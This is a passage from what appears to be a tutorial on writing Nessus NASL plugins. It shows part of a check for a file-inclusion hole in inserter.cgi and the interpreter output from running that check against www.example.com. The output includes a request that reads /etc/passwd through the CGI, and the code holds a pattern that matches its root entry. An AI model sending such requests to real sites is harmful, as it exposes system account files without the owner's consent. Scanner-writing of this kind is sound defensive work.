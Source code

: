 ```NASL
 if (debug)
 {
  display("req: ", req, "\n");
 }


 if (debug)
 {
  display("Third part starts here\n");
 }
 r = http_keepalive_send_recv(port:port, data:req);
 if (debug)
 {
  display("Third part ends here\n");
 }


 if (debug)
 {
  display("r: ", r, "\n");
 }


 if( r == NULL )exit(0);
 if(egrep(pattern:".*root:.*:0:[01]:.*", string:r))
 {
  security_warning(port);
  exit(0);
 }
}


foreach dir (make_list(cgi_dirs()))
{
 if (debug)
 {
  display("dir: ", dir, "\n");
 }
 check(loc:dir);
}
```

Once launched against a vulnerable site, the code in the previous example would return the following results (we are launching it by using the NASL command-line interpreter):

>$ nasl -t www.example.com inserter_file_inclusion.nasl
** WARNING : packet forgery will not work
** as NASL is not running as root
First part begins here
[17697] plug_set_key:internal_send(0)['3 Services/www/80/working=1;
']: Socket operation on non-socket
First part ends here
port: 80
dir: /cgi-bin
Second part starts here
Second part ends here
req: GET /cgi-bin/inserter.cgi?/etc/passwd HTTP/1.1
Connection: Close
Host: www.example.com
Pragma: no-cache
User-Agent: Mozilla/4.75 [en] (X11, U; Nessus)
Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, image/png, */*
Accept-Language: en
Accept-Charset: iso-8859-1,*,utf-8